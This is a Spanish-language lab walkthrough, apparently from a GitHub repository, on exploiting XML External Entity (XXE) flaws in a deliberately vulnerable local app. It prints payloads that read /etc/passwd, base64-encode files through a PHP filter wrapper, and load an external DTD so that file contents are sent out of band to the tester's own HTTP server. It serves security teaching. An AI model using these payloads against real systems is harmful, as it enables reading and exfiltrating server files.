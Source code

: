 # XXE Laboratorio 💻


<p align="center">
    <img src=/assets/XXE/Laboratory/banner_laboratory.PNG>
</p>

El Laboratorio que use es: [🐱 Github XEE](https://github.com/jbarone/xxelab).

---
---

La página inicial del **sitio web vulnerable** es esta

<p align="center">
    <img src=/assets/XXE/Laboratory/01-Web.PNG>
</p>

* Si seguimos los pasos para desplegar el laboratorio, la URL es `localhost:5000`

---

Usaremos `Burp Suite` para inteceptar la petición que se realiza la momento de **crear unas cuenta**

<p align="center">
    <img src=/assets/XXE/Laboratory/02-Petition.PNG>
</p>

* Vemos que la **data** viaja al servidor web en formato XML.
* Cuando tenemos este tipo de situaciones lo primero que debemos testear es un `ataque XXE`


## Inyectando entidades en XML 👥

Para esto tendremos que incluir la siguiente línea de código

```
<!DOCTYPE evil [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
```

<p align="center">
    <img src=/assets/XXE/Laboratory/03-DTD.PNG>
</p>

* **(1)**: `!DOCTYPE` se usa para indicar que usaremos un `DTD`(Document Type Definition) con el nombre `evil`
  
* **(2)**: `!ENTITY xxe SYSTEM` indica que crearemos una entidad con el nombre `xxe`. `SYSTEM` se usa para especificar que al entidad está definida en un archivo o recurso externo al documento actual.
  
* **(3)** `file://` Es un wrapper usado para acceder a un archivo dentro de la máquina víctima. `/etc/passwd` Es un archivo de Linux en el que se ven todos los usuarios del sistema, que tipo de consola tienen y demás características.

Para usar nuestra entidad, tenemos que seguir la siguiente sintaxis `&<NombreEntidad>;`

---

Al momento de enviar nuestra petición al servidor web nos indicará lo siguiente

<p align="center">
    <img src=/assets/XXE/Laboratory/04-Request.PNG>
</p>

* `estx@estx.com` Es el correo que indiqué para **Crear una cuenta**.

El campo `<email>` es el campo vulnerable, ya que a pesar de intentar con otros correos electrónicos no nos dejará crear un cuenta. Además, este es el único campo del cuando vemos algo en la respuesta del servidor web

Ahora, en vez de enviar un correo, usaremos nuestra entidad previamente creada

<p align="center">
    <img src=/assets/XXE/Laboratory/05-Script.PNG>
</p>

* Recibimos como **respuesta del servidor** el contenido del archivo `/etc/passwd` de la máquina víctima. ✅
  
---
Podemos usar diferentes tipos de `wrappers` para recibir la información solicitada en un formato diferente. En este caso recibimos el contenido del **archivo /etc/passwd** en texto plano, pero, puede ser muy feo de ver en una respuesta del servidor.

Por lo cual ahora usaremos el wrapper `php://filter/convert.base64-encode/resource=/etc/passwd`

<p align="center">
    <img src=/assets/XXE/Laboratory/06-base64.PNG>
</p>

* Para representar la data original lo podemos hacer con `Burp Suite` y su submenú `Decoder` o con el siguiente comando en Linux `echo "<Data en Base64>" | base64 -d; echo`

---
---

## Inyectando entidades en XML OOB (Out Of Band) Blind 🦮

En algunas situaciones no se nos permitirá **inyectar entidades** en la data XML que enviemos al servidor. En estos casos, podemos cargar un `dtd` externo.

```xml
<!DOCTYPE evil [<!ENTITY % external SYSTEM "http://<IP>/<Archivo.dtd>"> %external;]>
```

* `% external` y `%external;` Esta sintaxis nos permite llamar a la entidad en la misma línea en la que las declaramos.


Para comprobar que la `entidad` definida previamente funciona haremos esto:

1. Levantaremos un servidor `http` con Python
    ```python
    python -m http.server 80
    ```
    * El puerto puede ser cualquiera que no se encuentre ejecutando un servicio previamente.

2. En la petición de `Burp Suite` incluiremos el `dtd` previo

<p align="center">
    <img src=/assets/XXE/Laboratory/07-OOB.PNG>
</p>    

* Mi dirección IP es la `192.168.100.70`, cuando se realiza una petición a un servicio web y no se especifica un puerto, por defecto es el `80`.
* En caso de que hayamos montado el **servidor HTTP** en un puerto diferente lo indicamos así `<Dirección IP>:<Puerto>`
* `file` Es el archivo que definiremos posteriormente para que se carguen de ahí los `dtds`
* En `Respuesta` nos vemos nada, pero si observamos el servidor HTTP

<p align="center">
    <img src=/assets/XXE/Laboratory/08-Log.PNG>
</p>

---

Ahora crearemos el archivo que almacenará las `dtds` maliciosas.

<p align="center">
    <img src=/assets/XXE/Laboratory/09-OOB.PNG>
</p>

* En la primera línea definimos la `dtd` que solicitará el contenido de un archivo de la máquina víctima.
  
* `&#x25;` Es la representación de `%`, está codificado ya que estamos definiendo una entidad dentro de otra, por lo que el `%` se lo representa de una forma especial.
  
* `http://<IP>/?content=%file;` Aquí definimos a donde queremos que nos envíe la información de lo solicitado. En este caso la información nos llegará al **servidor HTTP**, en forma de `http://<IP>/?content=<Contenido en base64>`, `%file;` es la 'variable' que contendrá esa información en base64.

* Por último invocamos las **entidades definidas previamente**. (Solo se invocan 2, ya que con `%file;` invocamos la primera `dtd`)

* No debemos tener entidades definidas con los mismos nombres. ⚠

---

Con `Burp Suite` enviamos la solicitud

<p align="center">
    <img src=/assets/XXE/Laboratory/10-Request.PNG>
</p>

Y como respuesta en nuestro servidor HTTP tenemos

<p align="center">
    <img src=/assets/XXE/Laboratory/11-Data.PNG>
</p>

Recibimos data en base64 y aplicando el comando `echo "<Data en base64>" | base64 -d; echo` podemos ver la data original.

<p align="center">
    <img src=/assets/XXE/Laboratory/12-Original.PNG>
</p>